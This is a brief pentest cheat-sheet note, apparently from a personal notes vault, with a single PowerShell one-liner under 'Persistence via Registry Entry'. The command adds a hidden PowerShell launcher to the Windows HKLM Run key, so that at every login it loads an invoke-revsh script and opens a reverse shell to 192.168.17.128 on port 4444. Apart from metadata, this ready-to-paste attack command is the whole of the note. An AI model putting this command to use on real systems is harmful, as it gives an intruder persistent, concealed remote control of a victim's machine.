 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Persistence via Registry Entry

~~~PowerShell
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v persistent /t REG_SZ /d "powershell.exe -windowstyle hidden -c \"Start-Process powershell.exe -windowstyle hidden 'import-module C:\Users\Admin\Desktop\invoke-revsh.ps1; invoke-revsh -reverse -ipaddress 192.168.17.128 -port 4444';exit\""
~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
